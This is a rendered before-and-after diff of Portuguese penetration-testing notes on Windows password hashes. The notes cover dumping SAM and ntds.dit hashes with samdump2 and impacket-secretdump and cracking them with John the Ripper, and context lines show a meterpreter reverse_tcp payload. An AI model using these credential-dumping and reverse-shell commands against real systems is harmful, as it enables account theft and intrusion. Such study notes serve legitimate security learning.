

Before and after one commit to jvrajunior/offensive-security-notes, a Markdown page: notes/notes.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Inclusão de notas sobre hashes de Windows

```diff
--- a/notes/notes.md
+++ b/notes/notes.md
@@ -1,5 +1,6 @@
-## Windows Hashes
+# Windows Hashes
 
+## Padrão de Hash do Windows
 ``<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:``
 LM Hash vazio: aad3b435b51404eeaad3b435b51404ee
 
@@ -70,9 +71,9 @@ Agora definimos o payload com ``set payload windows/x64/meterpreter/reverse_tcp`
 
 Execute o comando ``exploit`` e aguarde o inicio de uma nova sessão com os privilégios de administrador.
 
-## Quebra de hashes Windows
+## Visualizar Hashes
 
-Para visualizar os hashes que estão nos arquivos utilize uma das opções:
+Para visualizar os hashes que estão nos arquivos sam e ntds.dit utilize uma das opções:
 
 **Windows 2k/NT/XP/Vista**
 ``samdump2 SYSTEM SAM``
@@ -82,3 +83,13 @@ Para visualizar os hashes que estão nos arquivos utilize uma das opções:
 
 **Windows Server**
 ``impacket-secretdump -ntds ntds.dit -system SYSTEM LOCAL``
+
+## Quebra de Hashes
+
+Para realizar a quebra dos hashes podemos utilizar a ferramenta john The Ripper.
+
+**Quebra de Hash sem LM** *(aad3b435b51404eeaad3b435b51404ee)***:**
+``jhon --format=nt hash``
+
+**Quebra de Hash com LM:**
+``jhon --format=lm hash``
```
